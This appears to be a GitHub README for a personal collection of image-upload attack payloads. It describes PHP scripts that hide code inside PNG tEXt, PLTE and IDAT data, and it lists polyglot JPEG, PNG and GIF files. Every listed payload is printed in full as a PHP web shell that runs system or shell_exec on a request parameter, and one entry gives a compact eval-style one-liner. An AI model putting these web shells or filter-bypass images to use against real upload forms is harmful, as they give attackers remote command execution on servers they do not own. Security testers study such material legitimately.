# Image Upload Payloads and Scripts

This directory contains my payloads and scripts related to image upload vulnerabilities.

## Scripts

- **generate_tEXtPNG.php**  
  Takes 3 parameters: a PNG image, a PHP payload, and an output name.  
  Creates a new PHP file with a valid PNG structure that embeds the payload inside a custom `tEXt` chunk called `"synackt"`.

- **generatePLTE.php**  
  Takes 2 parameters: a PHP payload and an output name.  
  Creates a new PHP file with a valid PNG structure that hides the payload inside its palette (`PLTE`) instructions.

- **generateIDAT.php**  
  Very specific script.  
  Produces a `110x110` PNG image that, once resized to `55x55`, contains the exact PHP payload:  
  ```php
  <?=$_GET[0]($_POST[1]);?>

## Payloads

- **magicAd1Pixel.jpg**  
  A one-pixel JPEG image. With payload.  
  It contains the following PHP payload inside:
  
  ```php
  <?php echo system($_GET['cmd']); ?>

- **magicOnly.jpg**
  A minimal, magic-byte only JPEG image. With payload.
  It contains the following PHP payload inside:
  
  ```php
  <?php echo system($\_GET\['cmd']); ?>
  
- **PLTE1.png**
  A simple PNG image  with the payload in its PLTE section
  Generated by the PLTE script above.
  The image has an IHDR, PLTE, IDAT, and an IEND
  It contains the following PHP payload inside:
  
  ```php
  <?php echo shell_exec($\_GET\['cmd']); ?>


- **commentAnd1Pixel.png**
  A one-pixel PNG image with the payload in its comment section
  Comment was added using exiftool
  The image has an IHDR, tEXtComment, IDAT, and an IEND
  It contains the following PHP payload inside:
  
  ```php
  <?php echo system($_GET['cmd']); ?>  
  
  
  
- **realAndEnd.gif**
  A simple real GIF with the payload appended to its end
  - This wasn't tested and may not work due to unpredictable data before actual php code
  It contains the following PHP payload inside:
  
  ```php
  <?php echo system($_GET['cmd']); ?> 
  
  
 - **minimal89.gif**
   A GIF consisting of only the GIF89a + payload
   It contains the following PHP payload inside:

  ```php
  <?php echo system($_GET['cmd']); ?> 
  
